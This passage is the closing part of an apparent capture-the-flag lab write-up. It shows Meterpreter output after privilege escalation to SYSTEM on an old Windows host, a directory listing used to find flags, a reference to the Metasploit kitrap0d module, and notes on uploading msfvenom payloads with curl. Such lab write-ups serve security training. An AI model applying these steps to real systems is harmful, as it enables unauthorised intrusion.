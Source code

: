 Once I was done setting my options and running the exploit, my privileges were successfully exploited:

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM   
```
---

## 5. Flag Locations
```bash
meterpreter > cd "Documents and Settings"
meterpreter > ls
Listing: c:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-04-12 14:48:10 -0400  Administrator
040777/rwxrwxrwx  0     dir   2017-04-12 10:03:34 -0400  All Users
040777/rwxrwxrwx  0     dir   2017-04-12 10:04:48 -0400  Default User
040777/rwxrwxrwx  0     dir   2017-04-12 15:19:46 -0400  Lakis
040777/rwxrwxrwx  0     dir   2017-04-12 10:08:32 -0400  LocalService
040777/rwxrwxrwx  0     dir   2017-04-12 10:08:31 -0400  NetworkService
```
---
## References

- https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d/


---

## Tools Used

- Nmap
- davtest
- CURL
- Metasploit
  

---

## Lessons Learned

- Using davtest for further enumeration of Web-Dav-enabled servers
- Crafting payloads with msfvenom and uploading them with CURL
- Research of different exploits
